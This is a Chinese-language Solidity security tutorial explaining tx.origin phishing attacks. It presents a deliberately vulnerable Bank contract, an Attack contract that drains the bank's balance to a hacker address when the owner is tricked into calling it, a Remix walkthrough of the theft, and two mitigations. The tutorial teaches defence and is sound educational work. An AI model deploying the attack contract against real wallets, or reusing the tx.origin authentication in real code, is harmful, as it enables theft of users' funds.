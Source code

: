 ```yaml
---
title: S12. tx.origin钓鱼攻击
tags:
  - solidity
  - security
  - tx.origin
---
```


# WTF Solidity 合约安全: S12. tx.origin钓鱼攻击

我最近在重新学solidity，巩固一下细节，也写一个“WTF Solidity极简入门”，供小白们使用（编程大佬可以另找教程），每周更新1-3讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在github: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTFSolidity)

-----

这一讲，我们将介绍智能合约的`tx.origin`钓鱼攻击和预防方法。

## `tx.origin`钓鱼攻击

笔者上初中的时候特别喜欢玩游戏，但是项目方为了防止未成年人沉迷，规定只有身份证号显示已满十八岁的玩家才不受防沉迷限制。这该怎么办呢？后来笔者使用家长的身份证号进行年龄验证，并成功绕过了防沉迷系统。这个案例与`tx.origin`钓鱼攻击有着异曲同工之妙。

在`solidity`中，使用`tx.origin`可以获得启动交易的原始地址，它与`msg.sender`十分相似，下面我们用一个例子来区分它们之间不同的地方。

如果用户A调用了B合约，再通过B合约调用了C合约，那么在C合约看来，`msg.sender`就是B合约，而`tx.origin`就是用户A。如果你不了解`call`的机制，可以阅读[WTF Solidity极简教程第22讲：Call](https://github.com/AmazingAng/WTF-Solidity/blob/main/22_Call/readme.md)。

![](./img/S12_1.jpg)

因此如果一个银行合约使用了`tx.origin`做身份认证，那么黑客就有可能先部署一个攻击合约，然后再诱导银行合约的拥有者调用，即使`msg.sender`是攻击合约地址，但`tx.origin`是银行合约拥有者地址，那么转账就有可能成功。

## 漏洞合约例子

### 银行合约

我们先看银行合约，它非常简单，包含一个`owner`状态变量用于记录合约的拥有者，包含一个构造函数和一个`public`函数：

- 构造函数: 在创建合约时给`owner`变量赋值.
- `transfer()`: 该函数会获得两个参数`_to`和`_amount`，先检查`tx.origin == owner`，无误后再给`_to`转账`_amount`数量的ETH。**注意：这个函数有被钓鱼攻击的风险！**

```solidity
contract Bank {
    address public owner;//记录合约的拥有者

    //在创建合约时给 owner 变量赋值
    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        //检查消息来源 ！！！ 可能owner会被诱导调用该函数，有钓鱼风险！
        require(tx.origin == owner, "Not owner");
        //转账ETH
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

### 攻击合约

然后是攻击合约，它的攻击逻辑非常简单，就是构造出一个`attack()`函数进行钓鱼，将银行合约拥有者的余额转账给黑客。它有`2`个状态变量`hacker`和`bank`，分别用来记录黑客地址和要攻击的银行合约地址。

它包含`2`个函数：

- 构造函数:初始化`bank`合约地址.
- `attack()`：攻击函数，该函数需要银行合约的`owner`地址调用，`owner`调用攻击合约，攻击合约再调用银行合约的`transfer()`函数，确认`tx.origin == owner`后，将银行合约内的余额全部转移到黑客地址中。

```solidity
contract Attack {
    // 受益者地址
    address payable public hacker;
    // Bank合约地址
    Bank bank;

    constructor(Bank _bank) {
        //强制将address类型的_bank转换为Bank类型
        bank = Bank(_bank);
        //将受益者地址赋值为部署者地址
        hacker = payable(msg.sender);
    }

    function attack() public {
        //诱导bank合约的owner调用，于是bank合约内的余额就全部转移到黑客地址中
        bank.transfer(hacker, address(bank).balance);
    }
}
```

## `Remix` 复现

**1.** 先将`value`设置为10ETH，再部署 `Bank` 合约，拥有者地址 `owner` 被初始化为部署合约地址。

![](./img/S12-2.jpg)

**2.** 切换到另一个钱包作为黑客钱包，填入要攻击的银行合约地址，再部署 `Attack` 合约，黑客地址 `hacker` 被初始化为部署合约地址。

![](./img/S12-3.jpg)

**3.** 切换回`owner`地址，此时我们被诱导调用了`Attack`合约的`attack()`函数，可以看到`Bank`合约余额被掏空了，同时黑客地址多了10ETH.

![](./img/S12-4.jpg)

## 预防办法

目前主要有两种办法来预防可能的`tx.origin`钓鱼攻击。

### 1.使用`msg.sender`代替`tx.origin`

`msg.sender`能够获取直接调用当前合约的调用发送者地址，通过对`msg.sender`的检验，就可以避免整个调用过程中混入外部攻击合约对当前合约的调用

```solidity
function transfer(address payable _to, uint256 _amount) public {
  require(msg.sender == owner, "Not owner");

  (bool sent, ) = _to.call{value: _amount}("");
  require(sent, "Failed to send Ether");
}
```

### 2.检验`tx.origin == msg.sender`

如果一定要使用`tx.origin`，那么可以再检验`tx.origin`是否等于`msg.sender`，这样也可以避免整个调用过程中混入外部攻击合约对当前合约的调用。但是副作用是其他合约将不能调用这个函数。

```solidity
    function transfer(address payable _to, uint _amount) public {
        require(tx.origin == owner, "Not owner");
        require(tx.origin == msg.sender, "can't call by external contract");
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
```

## 总结

这一讲，我们介绍了智能合约中的`tx.origin`钓鱼攻击，目前有两种方法可以预防它：一种是使用`msg.sender`代替`tx.origin`；另一种是同时检验`tx.origin == msg.sender`。推荐使用第一种方法预防，因为后者会拒绝所有来自其他合约的调用。
